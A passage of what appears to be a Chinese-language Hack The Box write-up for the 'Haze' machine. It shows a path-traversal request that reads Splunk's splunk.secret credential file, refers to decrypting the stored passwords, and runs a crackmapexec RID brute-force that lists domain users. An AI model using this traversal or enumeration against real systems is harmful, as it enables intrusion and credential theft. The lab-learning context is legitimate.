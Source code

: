 尝试对密码进行解密

- [HurricaneLabs/splunksecrets: splunksecrets is a tool for working with Splunk secrets offline](https://github.com/HurricaneLabs/splunksecrets)

需要**splunk.secret**参数

```
GET /en-US/modules/messaging/C:../C:../C:../C:../C:../C:../C:../C:../C:../C:../C:/Program%20Files/Splunk/etc/auth/splunk.secret HTTP/1.1
Host: haze.htb:8000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, i

---------

NfKeJCdFGKUQUqyQmnX/WM9xMn5uVF32qyiofYPHkEOGcpMsEN.lRPooJnBdEL5Gh2wm12jKEytQoxsAYA5mReU9.h0SYEwpFMDyyAuTqhnba9P2Kul0dyBizLpq6Nq5qiCTBK3UM516vzArIkZvWQLk3Bqm1YylhEfdUvaw1ngVqR1oRtg54qf4jG0X16hNDhXokoyvgb44lWcH33FrMXxMvzFKd5W3TaAUisO6rnN0xqB7cHbofaA1YV9vgD
```

得到密码

![](./images/image-361.png)

可以看到密码是正确的

![](./images/image-362.png)

目标机器开启了**5985**端口，但是这个账户登录不上去

## UserEnum

查看其他用户

```
[root@kali] /home/kali/Haze  
❯ crackmapexec smb haze.htb -u 'paul.taylor' -p 'Ld@p_Authxxxxxxxxxx' --rid-brute | grep 'SidTypeUser'                                                                                                      ⏎
SMB                      Haze.htb        445    DC01             500: HAZE\Administrator (SidTypeUser)
SMB                      Haze.htb        445    DC01             501: HAZE\Guest (SidTypeUser)
SMB                      Haze.htb        445    DC01             502: HAZE\krbtgt (SidTypeUser)
SMB                      Haze.htb        445    DC01             1000: HAZE\DC01$ (SidTypeUser)
SMB                      Haze.htb        445    DC01             1103: HAZE\paul.taylor (SidTypeUser)
SMB                      Haze.htb        445    DC01             1104: HAZE\mark.adams (SidTypeUser)
SMB                      Haze.htb        445    DC01             1105: HAZE\edward.martin (SidTypeUser)
```